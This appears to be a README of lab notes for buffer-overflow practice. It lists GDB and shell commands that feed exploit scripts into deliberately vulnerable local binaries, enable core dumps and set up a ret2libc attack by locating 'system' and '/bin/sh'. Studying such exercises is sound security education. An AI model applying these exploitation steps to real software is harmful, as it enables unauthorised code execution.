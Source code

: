 # `overflow.x86.no`

## Debug session with GDB

    break *(return_input+32)

    run < <(python ./exploit.py -r 0xffffd4f8)

    hexdump $sp-0x100 0x200

    nearpc $sp+8 10

## Shell session

    ulimit -c unlimited

    ./overflow.x86.no < <(python exploit.py -r 0xffffd4f8)

    gdb ./overflow.x86.no core

    ./overflow.x86.no < <(python exploit.py -r 0xffffd548)

# `victim.x86.no`

## Shell session
    
    ulimit -c unlimited

    sudo sysctl -w kernel.core_pattern=core

    python exploit_victim.py -r 0xdeadbeef | xargs ./victim.x86.no

    ./victim.x86.no $(python exploit_victim.py -r 0xdeadbeef)

    gdb ./victim.x86.no core

    ./victim.x86.no $(python exploit_victim.py -r 0xffffd2e0)

## Debug session with GDB
    
    run $(python exploit_victim.py -r 0xffffd2a0)


# Ret2libc of `victim.x86.no.nx`

    gdb ./victim.x86.no.nx

    print system

    search -s '/bin/sh'

    hexdump 0xf7f6ea0b 10


